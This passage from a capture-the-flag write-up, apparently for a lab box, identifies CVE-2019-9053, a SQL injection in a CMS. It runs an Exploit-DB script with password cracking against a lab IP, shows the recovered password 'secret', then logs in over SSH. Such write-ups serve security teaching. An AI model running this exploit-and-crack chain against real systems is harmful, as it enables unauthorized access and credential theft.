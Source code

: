 ![2](https://github.com/Knign/Write-ups/assets/110326359/2609b04d-ac85-4bb3-9e78-76f396abe0e7)

Let's check Exploit-DB to see if there is an exploit for that version.

![3](https://github.com/Knign/Write-ups/assets/110326359/01957b9a-77f1-40cd-b8d5-77dd86433752)

### Answer
```
CVE-2019-9053
```

&nbsp;

### To what kind of vulnerability is the application vulnerable?
The vulnerability is mentions in the CVE page.

![4](https://github.com/Knign/Write-ups/assets/110326359/2627f18d-3f9d-4a34-9e83-14e12986d914)

### Answer
```
SQLi
```

&nbsp;

### What's the password?
Let's save the exploit to a file called `exploit.py`.

If you don't have `termcolor`, you can use the following command:
```
pip install termcolor
```
We will have to modify the exploit a bit.
```
$ python exploit.py -u http://10.10.48.90/simple --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9f2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Pasword cracked: secret
```
### Answer
```
secret
```

&nbsp;

### Where can you login with the details obtained?
Let's try and login through SSH using the `mitch` username and `secret` password.
```
$ ssh mitch@10.10.48.90 -p 2222
The authenticity of host '[10.10.48.90]:2222 ([10.10.48.90]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.48.90]:2222' (ED25519) to the list of known hosts.
mitch@10.10.48.90's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```